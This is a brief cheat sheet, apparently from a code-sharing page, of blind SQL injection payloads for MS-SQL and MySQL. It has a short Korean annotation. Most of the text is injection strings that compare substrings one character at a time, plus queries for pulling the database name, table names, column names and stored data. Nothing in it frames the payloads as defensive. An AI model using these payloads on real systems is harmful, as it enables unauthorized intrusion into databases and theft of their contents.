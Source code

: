 <MS-SQL>
#Shape
select * from board where Title='//' and substring((query), 1, 1) < 'a'--
???' and substring((query), 1, 1) < 'a'--

#get DB NAME
db_name()

#Get Table name
select top 1 name from sysobjects where xtype='U'

#Get Column name
select top 1 column_name from information_schema.columns where table_name = '[Table Name]'

#Get Data
select top 1 [Column Name] from [Table Name]



<MySQL>
???' and ascii(substring((query), 1, 1)) > 'a'#

#Get Table Name
select table_name from information_schema.tables where table_type='base table' limit 0,1<br>
                                                                                     ㄴ> 0번 째 테이블
